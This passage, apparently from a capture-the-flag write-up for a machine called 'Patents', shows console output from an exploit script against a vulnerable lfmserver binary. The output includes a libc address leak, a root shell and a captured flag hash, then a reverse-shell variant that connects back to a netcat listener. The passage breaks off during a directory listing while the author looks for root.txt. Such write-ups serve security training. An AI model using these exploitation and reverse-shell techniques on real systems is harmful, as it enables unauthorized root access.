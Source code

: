 ### Getting shell as root
```python
root@silence:~# python3 exploit3.py
[*] '/root/lfmserver'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Leaked libc-base: 0x7f6f4454f000
[+] Found fd: 6
[*] Switching to interactive mode
LFM 200 OK
Size: 32

26ab0db90d72e28ad0ba1e22ee510510
uid=0(root) gid=0(root) groups=0(root)
$ hostname
patents
$ whoami
root
```
The shell proved to be quite instable, so I added a functionality to quickly get a reverse-shell.
```python
root@silence:~# python3 exploit3.py REV
[*] '/root/lfmserver'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Leaked libc-base: 0x7f6f4454f000
[+] Found fd: 6
[*] Setup your listener! [nc -lvnp 443]
Send payload? [Y/n]

root@silence:~# nc -lvnp 443
listening on [any] 443 ...

connect to [10.10.14.23] from (UNKNOWN) [10.10.10.173] 59558
bash: cannot set terminal process group (1248): Inappropriate ioctl for device
bash: no job control in this shell
root@patents:/opt/checker_server#
```
Now that we have a shell, let us read root.txt.
```bash
root@patents:~# ls -alh
ls -alh
total 23K
drwxr-xr-x  7 root root 1.0K Dec  3 14:25 .
drwxr-xr-x 23 root root 4.0K Jan 12 00:03 ..
lrwxrwxrwx  1 root root    9 May 22  2019 .bash_history -> /dev/null
drwx------  2 root root 1.0K May 21  2019 .cache
drwx------  3 root root 1.0K May 21  2019 .gnupg
drwxr-xr-x  3 root root 1.0K Dec  3 14:25 .local
drwx------  2 root root  12K May 21  2019 lost+found
drwxr-xr-x  3 root root 1.0K May 21  2019 snap
-rw-------  1 root root 1.6K May 22  2019 .viminfo
```
Seems like the root.txt is not here! Let us enumerate the machine to find the root.txt.
